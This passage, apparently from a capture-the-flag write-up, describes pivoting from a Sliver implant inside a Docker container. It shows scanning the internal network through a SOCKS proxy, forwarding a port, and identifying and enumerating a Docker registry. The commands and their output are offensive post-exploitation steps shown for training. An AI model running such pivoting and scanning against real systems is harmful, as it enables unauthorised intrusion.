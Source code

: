 ![Implant session established](sliver-foothold.png)
_Established Sliver implant as www-data_


## Docker

Judging by the hostname and presence of `/.dockerenv`{:.filepath}, we were confident that our implant session was in a Docker container. We found a Linux user named **john** in `/mnt/.ssh/authorized_keys`{:.filepath}, but couldn't find much else on the filesystem, so we began mapping the Docker network.

~~~sh
ifconfig
socks5 start -P 1080
~~~
{:file="bryan@redteam ➤ sliver-client ➤ www-data@070370e2cdc4" .nolineno}

~~~zsh
# Scan the 1000 most common TCP ports on 172.18.0.0/29
naabu -proxy localhost:1080 -timeout 1000 -host 172.18.0.0/29
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

~~~text
172.18.0.7:80
172.18.0.3:3306
172.18.0.1:80
172.18.0.1:22
172.18.0.2:5000
172.18.0.4:80
~~~
{:file="STDOUT" .nolineno}

Port **5000** on **172.18.0.2** looked interesting, so we forwarded it to localhost and began testing. A plain HTTP GET request verified that it was a HTTP server, but didn't return much else. We tried requesting a random path and found that this was a Docker registry from the `Docker-Distribution-Api-Version` header.

~~~sh
portfwd add -r 172.18.0.2:5000 -b 127.0.0.1:5000
~~~
{:file="bryan@redteam ➤ sliver-client ➤ www-data@070370e2cdc4" .nolineno}

~~~zsh
# Investigate 172.18.0.2:5000 through local port forward
curl -i localhost:5000 # Nothing interesting
curl -i localhost:5000/_ # "registry/2.0" ~> Docker registry
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}


### Docker Registry

The `/v2/_catalog`{:.filepath} endpoint was requested to list container images. We ended up finding a custom image called **cybermonday_api** which was likely tied to the webhook API. The filesystem layers were downloaded from the registry and searched for relevant content.
